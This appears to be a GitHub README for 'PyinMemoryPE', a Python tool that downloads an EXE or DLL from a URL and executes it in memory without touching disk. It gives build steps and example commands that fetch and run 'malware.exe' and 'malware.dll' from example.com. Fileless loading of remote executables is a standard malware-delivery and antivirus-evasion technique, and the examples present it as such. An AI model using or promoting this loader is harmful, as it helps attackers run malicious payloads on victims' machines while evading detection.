 Greetings
------------

# PyinMemoryPE
execute any PE (dll,exe) in memory filelessly


# usage

pyMemory.py < url> < TYPe >

# build into exe

use pyinstaller or nuitka and build pymemory.py

or use the prebuilt exe in ./output 

# example

exe : PyexecMemory.exe http://example.com/malware.exe EXE 

dll: PyexecMemory.exe http://example.com/malware.dll DLL --Method DLLRegisterServer

# Check for more info

https://github.com/naksyn/PythonMemoryModule

https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/
